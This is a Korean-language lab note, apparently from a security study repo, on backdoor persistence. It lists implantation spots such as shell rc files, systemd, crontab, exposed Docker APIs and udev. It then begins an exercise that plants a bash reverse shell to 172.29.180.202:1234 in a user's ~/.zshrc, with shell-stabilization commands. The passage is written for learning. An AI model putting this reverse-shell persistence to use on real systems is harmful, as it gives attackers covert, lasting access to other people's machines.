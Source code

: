 # 백도어 지속성 확보 & 삽입 실습

### 지속성(Persistence) 확보
- 공격 대상의 서버 혹은 사용자가 로그아웃했을 때 사라지거나,  
재부팅 후 돌아왔을 때 작동하지 않는다면 의미가 없다.
- 따라서 눈에 띄지 않는 곳에 삽입하고, 로그아웃/재부팅과 상관없이 자동으로 실행되도록 만들어줘야한다.
- 이러한 과정을 통해 공격자가 시스템에 대한 장기적인 접근권한을 확보해줘야한다.

<br>

### 삽입(Implantation) 방식
- `~/.zshrc`, `~/.bashrc`과 같이 Bash 쉘 초기화 스크립트 파일에 삽입한다.
- `systemd`, `crontab`과 같은 자동 실행 도구를 활용해 간단하게 실행시킨다.
- `Docker Remote API 삽입` : perfctl 라는 악성코드가 실제로 노출된 Docker API를 통해 원격 컨테이너에 배포된 사례이다.
공격자는 컨테이너를 privileged 모드로 실행해 호스트에 접근한다.
- `udev` 같은 하드웨어 이벤트 감지기에 넣는 경우 USB 연결시에 탈취하는 식으로 구현 가능하다.


<br>

### 백도어 구현 1    
첫번째로 kali1 사용자가 쉘을 시작할 때마다   
`bash -c 'bash -i >& /dev/tcp/172.29.180.202/1234 0>&1'`를 실행시키도록 만들어보자.  

쉘을 킬 때 실행되는 파일에 삽입하고, 쉘을 부팅시에도 파일 변화가 없으니 지속성도 확보할 수 있다.  

초기 쉘을 얻었다 가정하에  
이전에 다뤘던 Shell 안정화를 위한 명령어들을 입력해준다.  

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
ctrl Z
stty raw -echo; fg
stty rows 38 columns 116
```

안정화된 쉘을 얻었다면 bash를 킬 때 자동 실행되는 파일이 뭔지 찾아줘야한다.   

그러기 위해서  
```bash
echo $SHELL
```
명령어로 기본 쉘을 파악해준다.  

<br>

<img src="https://github.com/user-attachments/assets/91c6c6d0-cb4d-4ed7-8706-3222f554ebfa" width=300>    

Kali1 에서 쓰는 기본 쉘이 zsh인 것을 알았으니  
`~/.zshrc`에 삽입하면 쉘을 킬 때 마다 내 ip의 1234 포트로 연결 시도가 올 것이다.  

<br>

그럼 이제 
`ls -al ~` 명령어를 통해 홈 디렉토리 경로의 숨김 파일의 상세정보를 구경한다.  

